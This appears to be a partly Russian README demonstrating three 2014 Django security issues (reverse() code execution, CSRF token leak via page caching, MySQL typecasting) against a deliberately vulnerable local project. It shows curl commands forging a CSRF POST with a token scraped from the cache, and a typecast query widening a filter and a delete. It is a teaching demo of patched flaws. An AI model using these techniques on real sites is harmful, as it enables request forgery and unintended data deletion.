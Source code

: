 ## Source URL

https://www.djangoproject.com/weblog/2014/apr/21/security/

```
$ pip install Django==1.6.2 MySQL-python==1.2.5
$ django-admin.py startproject vulnerable
```

## Issue: Unexpected code execution using reverse() ##

	$ curl localhost:8000

	       /\     /\
	      {  `---'  }
	      {  O   O  }  
	    ~~|~   V   ~|~~  
	       \  \|/  /   
	        `-----'__
	        /     \  `^\_
	       {       }\ |\_\_   W
	       |  \_/  |/ /  \_\_( )
	        \__/  /(_E     \__/
	          (  /
	           MM


	$ curl localhost:8000?next=pwn.own

	                     .ed"""" """$$$$be.
	                   -"           ^""**$$$e.
	                 ."                   '$$$c
	                /                      "4$$b
	               d  3                      $$$$
	               $  *                   .$$$$$$
	              .$  ^c           $$$$$e$$$$$$$$.
	              d$L  4.         4$$$$$$$$$$$$$$b
	              $$$$b ^ceeeee.  4$$ECL.F*$$$$$$$
	  e$""=.      $$$$P d$$$$F $ $$$$$$$$$- $$$$$$
	 z$$b. ^c     3$$$F "$$$$b   $"$$$$$$$  $$$$*"      .=""$c
	4$$$$L        $$P"  "$$b   .$ $$$$$...e$$        .=  e$$$.
	^*$$$$$c  %..   *c    ..    $$ 3$$$$$$$$$$eF     zP  d$$$$$
	  "**$$$ec   "   %ce""    $$$  $$$$$$$$$$*    .r" =$$$$P""
	        "*$b.  "c  *$e.    *** d$$$$$"L$$    .d"  e$$***"
	          ^*$$c ^$c $$$      4J$$$$$% $$$ .e*".eeP"
	             "$$$$$$"'$=e....$*$$**$cz$$" "..d$*"
	               "*$$$  *=%4.$ L L$ P3$$$F $$$P"
	                  "$   "%*ebJLzb$e$$$$$b $P"
	                    %..      4$$$$$$$$$$ "
	                     $$$e   z$$$$$$$$$$%
	                      "*$c  "$$$$$$$P"
	                       ."""*$$$$$$$$bc
	                    .-"    .$***$$$"""*e.
	                 .-"    .e$"     "*$c  ^*b.
	          .=*""""    .e$*"          "*bc  "*$e..
	        .$"        .z*"               ^*$e.   "*****e.
	        $$ee$c   .d"                     "*$.        3.
	        ^*$E")$..$"                         *   .ee==d%
	           $.d$$$*                           *  J$$$e*
	            """""                              "$$$"

## Issue: Caching of anonymous pages could reveal CSRF token ##

### Анатомия уязвимости

	$ curl -I localhost:8000/login/
	HTTP/1.0 200 OK
	Date: Sun, 04 May 2014 14:58:59 GMT
	Server: WSGIServer/0.1 Python/2.7.6
	Expires: Sun, 04 May 2014 15:07:25 GMT
	Vary: Cookie
	Last-Modified: Sun, 04 May 2014 14:57:25 GMT
	Cache-Control: max-age=600
	X-Frame-Options: SAMEORIGIN
	Content-Type: text/html; charset=utf-8
	Set-Cookie:  csrftoken=EbLMgjQ9g62hzmeaEovXkhhqwIQmKst1; expires=Sun, 03-May-2015 14:57:24 GMT; Max-Age=31449600; Path=/

### Пример

0. Пример кода с view

1. Представим ситуацию. Жертва - постоянный анонимный пользователь сайта.
```
$ curl localhost:8000/boom/
7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc
```

2. У злоумышленника есть сайт и механизм(бот), который ходит на сайт жертвы и получает куки анонимов из кэша

3. (прил) пользователь заходит на сайт злоумышленника и там выполняется AJAX запрос аналогичный
```
$ curl --request POST \
	--cookie "csrftoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	--data "csrfmiddlewaretoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	localhost:8000/boom/
BOOM!
```

## Issue: MySQL typecasting

Попытаемся разобраться о чем идет речь

	>>> query_obj = CVE_2014_0474_Blacklist.objects.filter(ip=192)
	>>> print query_obj.query
	SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192 

	mysql> SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192.168;
	+----+---------------+
	| id | ip            |
	+----+---------------+
	|  2 | 192.168.0.1   |
	|  3 | 192.168.83.17 |
	+----+---------------+
	2 rows in set, 3 warnings (0,01 sec)

Варианты использования:
У злоумышленника появился доступ к очереди celery.
Celery сериализует аргументы функций. Можно сериализовать число туда, где приложение ожидает строку.

	>>> query_obj.delete()
	Traceback (most recent call last):
	  File "<console>", line 1, in <module>
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 465, in delete
	    collector.delete()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/deletion.py", line 260, in delete
	    qs._raw_delete(using=self.using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 476, in _raw_delete
	    sql.DeleteQuery(self.model).delete_qs(self, using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/subqueries.py", line 85, in delete_qs
	    self.get_compiler(using).execute_sql(None)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/compiler.py", line 782, in execute_sql
	    cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 69, in execute
	    return super(CursorDebugWrapper, self).execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 53, in execute
	    return self.cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/mysql/base.py", line 124, in execute
	    return self.cursor.execute(query, args)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 207, in execute
	    if not self._defer_warnings: self._warning_check()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 117, in _warning_check
	    warn(w[-1], self.Warning, 3)
	Warning: Truncated incorrect DOUBLE value: '127.0.0.1                                    '

	mysql> SHOW WARNINGS;
	+---------+------+-----------------------------------------------------------------------------------+
	| Level   | Code | Message                                                                           |
	+---------+------+-----------------------------------------------------------------------------------+
	| Warning | 1292 | Truncated incorrect DOUBLE value: '127.0.0.1                                    ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.0.1                                  ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.83.17                                ' |
	+---------+------+-----------------------------------------------------------------------------------+
	3 rows in set (0,00 sec)
